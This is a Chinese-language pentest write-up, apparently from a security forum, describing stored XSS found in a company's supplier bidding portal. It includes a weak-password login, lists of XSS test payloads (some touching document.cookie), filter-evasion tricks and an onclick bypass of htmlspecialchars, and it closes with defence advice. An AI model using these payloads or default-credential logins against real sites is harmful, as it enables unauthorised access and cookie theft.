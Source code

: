 免责声明:
=====

渗透过程为授权测试,所有漏洞均以提交相关平台,博客目的只为分享挖掘思路和知识传播\*\*
--------------------------------------------

涉及知识:
=====

xss注入及xss注入绕过

挖掘过程:
=====

背景:  
某次针对某目标信息搜集无意发现某工程公司的项目招标平台

厚码…求生欲满满呜呜呜[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7dd67ccd2ba5db99cfca2a79d5e16618d16f3944.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7dd67ccd2ba5db99cfca2a79d5e16618d16f3944.png)

有个供应商登陆,啥也不说先来个弱口令 123456:123456

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1c7f14a81c50dc345387c41d46700cbf24c4dc62.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1c7f14a81c50dc345387c41d46700cbf24c4dc62.png)  
只能说弱口令yyds!!!!  
发现在供应商资料中存在不少输入点,手痒随手一波xss

分享一波常用测试语句:

输入框:

```javascript
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

```

图片:

```javascript
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x οnerrοr=alert("XSS");>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

编辑器:

```javascript
[a](javascript:window.onerror=alert;throw%201)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](j a v a s c r i p t:prompt(document.cookie))
[a](javascript:prompt(document.cookie))
```

刷一波发现大部分都有过滤,但是\[股份/责任人\] 栏下有代码被注入成功

语句为:`"<script>alert('XSS')</script>"<`\\  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ecba057b541659fe9f9bdf2ff105a305ea56b48f.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ecba057b541659fe9f9bdf2ff105a305ea56b48f.png)  
查看该部分DOM源码:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-a31e9c00b80c865867b8ce09ae33c84c82797cb8.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-a31e9c00b80c865867b8ce09ae33c84c82797cb8.png)

有戏!

针对该点继续测试,构造语句:`"<script>alert('XSS')</script>"<`  
![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-49841cdf218123c53f5ac01e2feff05cba449662.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-6c95598970700fd316877d4ee2172d0e476922a2.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-6c95598970700fd316877d4ee2172d0e476922a2.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-38a9cb8a45203cab91317735e2454db7f847fc08.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-38a9cb8a45203cab91317735e2454db7f847fc08.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-d4552925c66fbbe1bc3a6b06379e5bd6539f0ac8.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-d4552925c66fbbe1bc3a6b06379e5bd6539f0ac8.png)

尝试url编码:  
"&lt;script&gt;alert("''XSS'")%3C/script%3E  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1aa01c8cf4fd7cfa2f5501fcb0b573125acee0d6.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1aa01c8cf4fd7cfa2f5501fcb0b573125acee0d6.png)

这么一通注下来,对刚刚的乱注小总结一下:

- 发现 / 被转义成 =”” //
- /变成 =””
- &lt;/ script&gt;转义成&lt;="" script=""&gt; 而且多个/
- 如///也只被转义成 ="" 没办法重写绕过

- - - - - -

并且存在htmlspecialchars()函数: &amp;quot,意味: """  
本地测试发现script便签中存在 &amp;quot 就无法弹窗

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-adb8d1c60f0262010bf7641e02d019a9180c58d9.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-adb8d1c60f0262010bf7641e02d019a9180c58d9.png)

所以存在两个问题,一方面要绕过这个&amp;quot,而且要绕过&lt;/script&gt;的转义

先说对&lt;/script&gt;的绕过思路:  
转换法:

```php
前端限制绕过，直接抓包重放，或者修改html前端代码
大小写，比如：<scrIPT>alERT(1111)</scRIPT>用来绕过
拼凑：<scri<script>pt>alert(1111)</scri</script>pt>
使用注释干扰：
<scri<!--test-->pt>alert(111)</scri<!--test-->pt>
编码法:核心思路：后台过滤了特殊字符，比如<script>标签，但该标签可以被各种编码，后台不一定过滤，当浏览器对该编码进行识别时，会翻译成正常的便签，从而执行在使用编码时需要主要编码在输出点是否会被正常是不和翻译！
```

接下来说对&amp;quot的绕过:  
`htmlspecialchars()函数是把预定义的字符转换为HTML实体，预定义的字符是：

&amp;（和号）成为 &amp;amp  
" (双引号）成为&amp;quot  
‘（单引号）成为&amp;#039  
&lt;(小于号）成为&amp;lt

> (大于号） 成为&amp;gt  
> 可引用类型:  
> ENT\_COMPAT-默认，仅编码双引号  
> ENT\_QUOMES-编码双引号和单引号  
> ENT\_NOQUOTES-不编码任何引号  
> `

其他函数  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2485164d31360b05ed035f97489c2972054bd734.watermark%2Ctype_zmfuz3pozw5nagvpdgk%2Cshadow_10%2Ctext_ahr0chm6ly9ibg9nlmnzzg4ubmv0l3dlaxhpbl80nty3odezma%3D%3D%2Csize_16%2Ccolor_ffffff%2Ct_70)

构造语句:

构造对&amp;quot的绕过:

`q'οnclick='alert(1111)'`

直接产生弹窗:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3e8cabb245933cdbe5def83a716883ad0920eec4.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3e8cabb245933cdbe5def83a716883ad0920eec4.png)  
重新访问页面该xss弹窗还在,说明注入成功

接下来就是利用xss平台对这个注入点进行下一步利用  
具体可以参考:  
<https://www.cnblogs.com/coderge/p/13701664.html>

xss常见的防范措施

总的原则：输入做过滤，输出做转义  
过滤：根据业务需求进行过滤，比如过滤要求输入手机号，则只允许输入手机号格式的数字  
转义：所有输入到前端的数据都根据输出点进行转义，比如输出到HTML中进行HTML实体转义，输入到JS里面的进行JS转义